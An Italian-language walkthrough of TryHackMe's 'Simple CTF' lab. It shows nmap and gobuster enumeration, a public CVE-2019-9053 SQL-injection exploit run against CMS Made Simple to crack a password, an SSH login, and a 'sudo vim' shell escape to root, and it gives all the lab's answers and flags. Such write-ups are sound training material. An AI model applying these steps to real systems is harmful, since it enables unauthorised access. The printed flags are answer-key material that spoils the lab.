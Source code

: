 # Simple CTF

Benvenuto alla sfida "Simple CTF" su TryHackMe! Nonostante la sua descrizione minimale, questa CTF è progettata per guidarti attraverso alcune delle competenze fondamentali richieste in molte competizioni di hacking, fornendo un'esperienza ideale per i principianti.

La sfida "Simple CTF" è un ambiente sicuro e controllato che ti permette di esplorare e padroneggiare le competenze essenziali delle CTF. Il percorso include fasi cruciali come la scansione e l'enumerazione, la ricerca di vulnerabilità, lo sfruttamento e l'escalation dei privilegi.

**Cosa aspettarti**:

**Scansione ed Enumerazione**: Utilizza strumenti di scansione per identificare i servizi in esecuzione sulla macchina bersaglio e raccogli informazioni cruciali per avanzare nella tua missione.

**Ricerca**: Scava nella profondità del sistema per individuare punti deboli e vulnerabilità nascoste. La ricerca è la chiave per trovare le vie di accesso.

**Sfruttamento**: Una volta individuate le debolezze, metti in pratica le tue abilità di sfruttamento per guadagnare l'accesso non autorizzato. Affina la tua abilità nell'arte dell'hacking etico.

**Escalation dei Privilegi**: Supera le sfide aggiuntive che possono sorgere una volta ottenuto l'accesso. L'escalation dei privilegi ti aiuterà a ottenere il controllo completo del sistema.

**Obiettivi**:

- Trova e sfrutta le vulnerabilità.
- Raccogli le informazioni necessarie per completare la sfida.
- Scala i privilegi per ottenere il controllo totale.

e rispondi a tutte le domande...

Ricorda, questa CTF è pensata per i principianti, quindi non preoccuparti se sei alle prime armi. Utilizza questa opportunità per migliorare le tue abilità e diventare un esperto nell'arte dell'hacking etico. Buona fortuna, e che l'avventura inizi!

## SOLUZIONE 
_per completare la stanza rispetterò l'ordine delle domande_

Per iniziare provo a fare una scansione delle porte aperte, questo approccio mi è indicato dalla prima domanda

```sh
└─$ nmap -p- -sS -A 10.10.248.183
```
l'output indica che ci sono 3 porte aperte:
- Port 21 (Servizio FTP): Il server FTP vsftpd 3.0.3 è in esecuzione, consentendo l'accesso anonimo.
- Port 80 (Servizio HTTP): Apache httpd 2.4.18 è in esecuzione su Ubuntu, con una pagina predefinita che indica il funzionamento di Apache e un file robots.txt con voci disallow.
-  Port 2222 (Servizio SSH): OpenSSH 7.2p2 è in esecuzione su Ubuntu 4ubuntu2.8 sulla porta 2222/tcp.

![Alt text](img/image.png)
```diff
- Quanti servizi sono in esecuzione sotto la porta 1000?
```
$${\color{red}Quanti \space servizi \space sono \space in \space esecuzione \space sotto \space la \space porta \space 1000?} \space {\color{green}2}$$

<span class="Q">
Quanti servizi sono in esecuzione sotto la porta 1000?
</span>
<span class="A">
2
</span>

<span class="Q">
Cosa è in esecuzione sulla porta superiore?
</span>
<span class="A">
SSH
</span>

L'output di Nmap ci viene di nuovo in aiuto fornendoci anche la risposta della seconda domanda

Ora è necessario raccogliere qualche informazine in più.

sappiamo che la porta 80 espone un Apache quindi proviamo a visitare il sito

![Alt text](img/image-1.png)

abbiamo la conferma che il server Web è un Apache2 come indicato da Nmap.

ora provo con gobuster a fare una scansione del sito alla ricerca di altre pagine.

ho utilizzato DirBuster con la wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

è possibile anche usare GoBuster; lascio per completezza il comando:
```sh
└─$ gobuster dir -u http://10.10.248.183:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 
```
**dir** cerca solo le cartelle
**-u** è l'url
**-w** è la wordlist
**-t** sono i threads

![Alt text](img/image-2.png)

ho trovato molte directory e file; visiterò /simple/ nella quale c'è index.php

![Alt text](img/image-3.png)

la pagina è riferita ad un CMS chiamato CMS Made Simple. in fondo alla pagina è possibile vedere la versione.

![Alt text](img/image-4.png)

direi che è possibile fare una ricerca su google inserendo qualcosa del genere "_CMS Made Simple version 2.2.8 exploit_"

Il primo link di google è di exploit-db: https://www.exploit-db.com/exploits/46635

![Alt text](img/image-5.png)

questa pagina ci fa rispondere alle successive 2 domande

<span class="Q">
Qual è il CVE che stai usando contro l'applicazione?
</span>
<span class="A">
CVE-2019-9053
</span>

<span class="Q">
A che tipo di vulnerabilità è vulnerabile l'applicazione?
</span>
<span class="A">
SQLi
</span>

l'exploit è uno stript in python quindi lo ho capiato e incollato in un file .py

per comodità l'ho chiamato con il nome del CVE 
```sh
└─$ nano CVE-2019-9053.py
```
dando un'occhiata veloce al codice vengono importati dei moduli che sono per lo più built-in.
I moduli da installare sono: **termcolor** e **requests**.

quindi all'interno della directory in cui si trova il file .py installo un venv
```sh
└─$ python3 -m venv venv 
```
e successivamente lo attivo
```sh
└─$ source ./venv/bin/activate
```
ora posso installare termcolor e requests senza rischiare un confiltto di versioni, ma sopratutto senza sporcare la mia Kali.
```sh
└─$ pip install termcolor requests
```
Ora provo a eseguirlo e vediamo cosa ottengo in cambio. Se non si conosce la sintassi, si può eseguire lo script senza argomenti e ti darà alcune informazioni su cosa inserire, una sorta di Help.

![Alt text](img/image-6.png)

Qui possiamo vedere che abbiamo bisogno di fornire: 
- URL usando il flag -u 
- una wordlist per il cracking delle password usando -w.
```sh
└─$ python CVE-2019-9053.py -u http://10.10.248.183/simple/ --crack -w /usr/share/wordlists/rockyou.txt 
```
Ora, eseguiamolo e vediamo cosa otteniamo in cambio.

Il risultato è che abbiamo trovato:
```output
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
quindi possiamo rispondere alle seguenti domande:

<span class="Q">
Qual è la password?
</span>
<span class="A">
secret
</span>

<span class="Q">
Dove si può accedere con i dati ottenuti?
</span>
<span class="A">
SSH
</span>

ovviamente proverò subito ad eseguire l'accesso tramite SSH

![Alt text](img/image-7.png)

Bingo!

Ora vediamo dove sono e cosa c'è nella home del utente mitch

![Alt text](img/image-8.png)

quindi posso rispondere alla domanda:

<span class="Q">
Qual è il flag dell'utente?
</span>
<span class="A">
G00d j0b, keep up!
</span>

è facile rispondere anche a quella dopo dopo:
<span class="Q">
C'è qualche altro utente nella home directory? Come si chiama?
</span>
<span class="A">
sunbath
</span>

![Alt text](img/image-9.png)

per generare una shell con privilegi è necessario fare un paio di ricerche su google. Ma prima ho bisogno di conoscere se l'utente mitch può eseguire dei binari senza password.
per fare questo posso vedere quali binari sono consentiti a mitch con il comando:
```sh
└─$ sudo -l
```
![Alt text](img/image-10.png)

<span class="Q">
Cosa puoi sfruttare per generare una shell privilegiata?
</span>
<span class="A">
vim
</span>

Posso vedere che l'utente "mitch" può eseguire /usr/bin/vim senza una password. Questa informazione mi servirà per rispondere all'ultima domanda.

Diamo un'occhiata a GTFOBins e vediamo se possiamo usarlo per privesc.

![Alt text](img/image-11.png)
url: https://gtfobins.github.io/gtfobins/vim/

La documentazione dice che se eseguo questo comando qui posso aumentare i miei privilegi!

```sh
└─$ sudo vim -c ':!/bin/sh'
```
![Alt text](img/image-12.png)

<span class="Q">
Che cos'è il flag di radice?
</span>
<span class="A">
W3ll d0n3. You made it!
</span>

Finita!!!

<style>
    .Q {
        font-weight: bold;
        color: red;}
    .A {
    font-weight: bold;
    color: Green;}
</style>
